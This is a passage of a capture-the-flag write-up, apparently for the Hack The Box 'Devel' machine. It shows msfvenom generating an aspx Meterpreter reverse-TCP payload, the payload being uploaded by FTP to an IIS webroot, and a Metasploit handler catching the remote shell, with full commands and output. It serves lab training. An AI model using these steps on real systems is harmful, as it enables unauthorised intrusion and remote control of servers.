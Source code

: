 ## Using Msfvenom to Create a Custom Reverse Shell

After looking through the files from the ftp transfer, there was nothing there that gave me any new information. It was simply a rabbit hole. So, I decided that I had to take another approach. I knew that the machine was using IIS to run its webpage, which in fact uses ```.aspx``` files, instead of say ```html```.

```bash
┌─[✗]─[wither@parrot]─[~/HTB/Devel]
└──╼ $sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=4444 -f aspx -o wither.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2796 bytes
Saved as: wither.aspx
┌─[wither@parrot]─[~/HTB/Devel]
└──╼ $ls
iisstart.htm  test.html  welcome.png  wither.aspx


```

## Transferring the Shell via FTP

Knowing that I can easily access the webroot directory via FTP, I then decided to upload my shell onto the webserver.

```bash
ftp> put wither.aspx
local: wither.aspx remote: wither.aspx
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
2832 bytes sent in 0.00 secs (32.5398 MB/s)
```

## Opening a Meterpreter Shell

With my shell on the webserver, I could then open a reverse tcp connection between my machine and the webserver. To do this, I used Metasploit's exploit handler ```multi/handler``` with the payload ```windows/meterpreter/reverse_tcp```. Once I had the shell, I set it to go to the background, so that I could use it in exploitation later on.

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run

[-] Exploit failed: The following options failed to validate: LHOST.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/handler) > set LHOST tun0
LHOSt => tun0
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.23:4444 
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.5:49160) at 2020-07-14 00:47:33 +0100

meterpreter > background
[*] Backgrounding session 1...

```